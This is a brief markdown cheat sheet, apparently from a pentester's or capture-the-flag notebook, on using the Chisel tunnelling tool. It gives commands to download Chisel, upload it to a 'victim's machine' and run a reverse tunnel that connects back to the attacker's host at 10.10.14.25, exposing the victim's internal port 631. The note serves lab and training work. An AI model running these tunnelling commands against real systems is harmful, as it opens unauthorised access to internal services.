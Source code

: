```yaml
---
title: Chisel 🦦
---
```

## Download

- Go to the [Official repository](https://github.com/jpillora/chisel) 
- Select a release, clone it and unzip it:

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
gunzip chisel_1.10.1_linux_amd64.gz
# Now create a python server and upload it to the machine
```

## Usage

### On your machine

```shell
./chisel_1.10.1_linux_amd64 server -p 7000 --reverse 
```

### On victim's machine

```shell
chmod +x chisel_1.10.1_linux_amd64
./chisel_1.10.1_linux_amd64 client 10.10.14.25:7000 R:7631:localhost:631
```

>[!Note]
>You can change port (in my case 7000) to anyone.

Now you should be able to load that machine's port on your browser or make curl requests to it.